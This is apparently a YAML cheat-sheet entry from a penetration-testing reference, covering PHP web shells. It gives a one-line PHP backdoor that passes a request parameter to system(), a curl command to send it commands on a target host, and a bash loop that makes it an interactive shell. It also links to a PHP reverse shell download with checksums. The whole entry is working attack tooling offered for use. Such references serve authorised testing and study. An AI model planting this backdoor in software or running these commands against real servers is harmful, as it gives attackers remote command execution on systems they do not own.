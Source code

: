 ```yaml
---
functions:
  web-shell:
    - description: Tiny simple php backdoor `<?php echo system($_REQUEST['cmd']); ?>`. Accepts GET and POST requests.
      code: |
         curl -X POST http://target.com/path/to/shell.php -d "cmd=command"
    - description: Keeping curl persistent with the tiny php backdoor, Create a bash script add following code.
      code: |
        while true;do read -p "[>] halah@wibu:~$ " cmd;curl $1$cmd;done
        # Save the filename as cli.sh and give access to execute with chmod +x cli.sh
        Usage:
        ./cli.sh http://target.com/path/to/shell.php?cmd=
  reverse-shell:
    - description: Advanced webshell taken from pentest monkey [Download](/files/shells/php-reverse-shell-1.0.tar.gz) [Source webpage](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
      code: |
        MD5sum:2bdf99cee7b302afdc45d1d51ac7e373
        SHA1sum: 30a26d5b5e30d819679e0d1eb44e46814892a4ee
---
```

